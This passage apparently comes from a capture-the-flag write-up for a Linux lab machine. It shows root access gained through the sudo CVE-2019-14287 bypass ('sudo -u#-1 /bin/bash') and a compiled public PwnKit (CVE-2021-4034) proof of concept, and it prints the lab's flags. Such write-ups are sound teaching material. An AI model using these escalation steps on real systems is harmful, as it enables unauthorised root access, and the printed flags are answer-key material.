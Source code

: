 
- We are in, but didn't find the user flag.

```console
robert@ec96850005d6:~$ ls
robert.txt
robert@ec96850005d6:~$ cat robert.txt 
You shall not pass from here!!!

I will not allow ICA to take over my world.
```

- Loaded linpeas for privilege escalation.
- Found sudo version `1.8.21p2`.
- It is vulnerable to [2019-14287](https://www.exploit-db.com/exploits/47502){:target="\_blank"}

```console
robert@ec96850005d6:~$ sudo -u#-1 /bin/bash
root@ec96850005d6:~#
```

- Found user flag

```console
root@ec96850005d6:/root# cat success.txt
47 you made it!!!

You have made it, Robert has been taught a lesson not to mess with ICA.
Now, Return to our Agency back with some safe route.
All the previous door's have been closed.

Good Luck Amigo!
root@ec96850005d6:/root# cat user.txt
user{620fb94d32470e1e9dcf8926481efc96}
```

- Connected with ssh as maya back to the machine.


# Root flag

- Now on maya loaded linpeas and found it vulnerable to [CVE-2021-4034](https://nvd.nist.gov/vuln/detail/cve-2021-4034){:target="\_blank"}
- Found an [exploit](https://github.com/arthepsy/CVE-2021-4034){:target="\blank"}.
- Loaded it to machine and compiled it.

```console
maya@linuxagency:~$ gcc cve-2021-4034-poc.c -o exploit
maya@linuxagency:~$ ls
cve-2021-4034-poc.c  examples.desktop  flag.txt        old_robert_ssh
elusive_targets.txt  exploit           linpeas-new.sh
```

- Executed the exploit and got root.

```console
maya@linuxagency:~$ ./exploit
# whoami
root
# cd /root
# ls
message.txt  root.txt
# cat message.txt
Nice Job 47
We are really impressed with your skills

Hope you enjoyed your journey!!

Your director's of ICA
   0z09e & Xyan1d3
```